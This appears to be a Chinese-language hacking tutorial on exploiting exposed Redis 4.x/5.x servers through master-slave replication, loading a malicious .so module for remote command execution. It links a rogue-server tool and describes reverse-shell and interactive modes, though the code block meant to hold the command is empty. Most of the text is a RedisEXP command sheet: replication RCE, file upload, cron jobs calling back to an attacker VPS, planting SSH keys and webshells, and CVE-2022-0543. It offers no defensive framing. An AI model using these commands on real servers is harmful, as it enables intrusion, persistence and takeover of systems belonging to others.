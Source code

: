 在redis 4.x之后，通过外部拓展可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。然后在从机上加载恶意.so文件，即可执行命令。  
## 利用条件  
- 影响版本：Redis 4.x/5.x (<= 5.0.5)  
  
- 漏洞类型：RCE  
  
- 利用条件：未授权或者弱口令外网访问redis 服务  
  
## 漏洞复现  
  
**直接使用攻击即可：**  
Awsome-Redis-Rogue-Server  
  
下载地址：https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server  
  
利用工具反弹shell：可以执行一下语句进行反弹shell。  
```
```  
  
--rhost [靶机] --lhost [黑客攻击]，运行时可能存在编码错误，将.py文件改为gbk编码。  
  
注意：脚本运行的时候，有两种模式【i】交互式，也就是命令行；【r】反弹shell。  
  
反弹shell:  
  
![1748614663_6839be07d56c87f28c4e1.png!small?1748614663271](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CSyEGWNz8kt3YUvjTnSurmGHXIuIvwKW67Gh4ibqKtO5gibDicxYu3iasX36FlolzeOpibhWSn1DrmdicgC9zjpNtrPw/640?wx_fmt=jpeg&from=appmsg "")  
  
交互模式：  
  
![1748614678_6839be16ecab4b8cce3e9.png!small?1748614678391](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CSyEGWNz8kt3YUvjTnSurmGHXIuIvwKW8rwLZ372oqCm1GP2FWBTsDh0LZCawFTbze4N4xZvG662MYuxWCKGdg/640?wx_fmt=jpeg&from=appmsg "")  
  
这部分的缺点就是只适用于目标机器**允许远程登录**  
的时候，如果目标机子只允许本地登录，则这种利用方法就不行了，此时可以配合其他漏洞，从目标本地登录redis。  
## redis自动测试工具推荐  
## RedisEXP  
> 基本连接:   
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456  
> 执行Redis命令：  
RedisExp.exe -m cli -r 192.168.19.1 -p 6379 -w 123456 -c info  
> 加载dll或so执行命令：  
RedisExp.exe -m load -r 目标IP -p 目标端口 -w 密码 -rf (目标 dll | so 文件名)  
RedisEXP.exe -m load -r 127.0.0.1 -p 6379 -rf exp.dll -n system -t system.exec  
> 主从复制命令执行：  
RedisExp.exe -m rce -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port [-c whoami 单次执行] -rf 目标文件名[exp.dll | exp.so (Linux)]  
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami  
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami -rf exp.so  
> 主从复制上传文件：  
RedisExp.exe -m upload -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port -rp 目标路径 -rf 目标文件名 -lf 本地文件  
RedisEXP.exe -m upload -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -rp . -rf 1.txt -lf .\README.md  
> 主动关闭主从复制：  
RedisExp.exe -m close -r 目标IP -p 目标端口 -w 密码  
> 写计划任务：  
RedisExp.exe -m cron -r 目标IP -p 目标端口 -w 密码 -L VpsIP -P VpsPort  
RedisEXP.exe -m cron -r 192.168.1.8 -p 6379 -L 192.168.1.8 -P 9001  
> 写SSH 公钥：  
RedisExp.exe -m ssh -r 目标IP -p 目标端口 -w 密码 -u 用户名 -s 公钥  
RedisEXP.exe -m ssh -r 192.168.1.8 -p 6379 -u root -s ssh-aaaaaaaaaaaaaa  
> 写webshell：  
RedisExp.exe -m shell -r 目标IP -p 目标端口 -w 密码 -rp 目标路径 -rf 目标文件名 -s Webshell内容 [base64内容使用 -b 来解码]  
RedisEXP.exe -m shell -r 127.0.0.1 -p 6379 -rp . -rf shell.txt -s MTIzNA== -b  
> CVE-2022-0543：  
RedisExp.exe -m cve -r 目标IP -p 目标端口 -w 密码 -c 执行命令  